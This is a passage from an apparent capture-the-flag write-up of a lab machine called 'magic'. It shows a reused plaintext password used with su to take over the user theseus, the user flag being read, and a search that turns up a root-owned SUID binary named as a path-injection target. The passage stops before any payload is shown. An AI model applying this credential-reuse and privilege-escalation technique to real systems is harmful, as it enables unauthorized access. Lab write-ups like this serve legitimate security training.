 ```bash
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2024-02-08  4:32:55
```

### Password reuse

```bash
www-data@magic:/var/www/Magic$ su - theseus
Password:Th3s3usW4sK1ng
theseus@magic:~$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
theseus@magic:~$ cat ~/user.txt
eb411e445db3b36a33ef1eff40b1ed2c
theseus@magic:~$
```

# Root Flag
---

## From theseus to root


### SUID - Path injection

I noticed the abnormal group `users`, the only binary it owns was `/bin/sysinfo` that have SUID set as root

```bash
theseus@magic:~$ find / -type f -not -path "/proc/*" -not -path "/run/*" -not -path "/sys/*" -not -path "/var/lib/*" -group users -ls 2>/dev/null
   393232     24 -rwsr-x---   1 root     users       22040 Oct 21  2019 /bin/sysinfo
```

```bash
theseus@magic:~$ file /bin/sysinfo
/bin/sysinfo: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9e9d26d004da0634c0747d16d377cd2a934e565a, not stripped
```

After running it, it just gathers a bunch of system information

```bash
theseus@magic:~$ /bin/sysinfo
[...]
====================MEM Usage=====================
              total        used        free      shared  buff/cache   available
Mem:           3.8G        586M        1.8G        6.8M        1.5G        3.0G
Swap:          1.0G          0B        1.0G
```
